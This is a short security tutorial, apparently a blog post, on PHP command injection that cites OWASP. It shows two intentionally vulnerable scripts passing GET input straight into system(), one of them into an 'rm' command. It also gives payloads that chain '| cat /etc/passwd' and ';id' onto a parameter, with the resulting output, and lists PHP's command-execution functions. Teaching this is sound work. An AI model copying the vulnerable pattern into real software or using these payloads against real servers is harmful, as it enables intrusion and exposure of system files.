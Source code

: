 ```yaml
---
layout: post
title: "[WEB]Command Injection"
date: 2018-12-26 23:18:02 +0800
categories: [security,web]
tags: [security,web]
---
```


### **Example 1**
```php
<?php
$dir = $_GET["dir"];
if (isset($dir))
{
echo "<pre>";
system("ls -al ".$dir);
echo "</pre>";
}
?>
```
<pre>
payload: http://localhost/ex1.php?dir=| cat /etc/passwd
</pre>

### **Example 2**
```php
<?php
print("Please specify the name of the file to delete");
print("<p>");
$file=$_GET['filename'];
system("rm $file");
?>
```
#### Request
<pre>payload: http://127.0.0.1/delete.php?filename=bob.txt;id</pre>

#### Response

<pre>
Please specify the name of the file to delete

uid=33(www-data) gid=33(www-data) groups=33(www-data) 
</pre>

---


```
命令注入攻擊PHP中可以使用下列5個函數來執行外部的應用程序或函數
system、exec、passthru、shell_exec、``(與shell_exec功能相同)函數原型

string system(string command, int &return_var)

command 要執行的命令

return_var 存放執行命令的執行後的狀態值

string exec (string command, array &output, int &return_var)

command 要執行的命令

output 獲得執行命令輸出的每一行字符串

return_var 存放執行命令後的狀態值

void passthru (string command, int &return_var)

command 要執行的命令

return_var 存放執行命令後的狀態值

string shell_exec (string command)

command 要執行的命令
```


參考來源<br />
[https://www.owasp.org/index.php/Command_Injection](https://www.owasp.org/index.php/Command_Injection)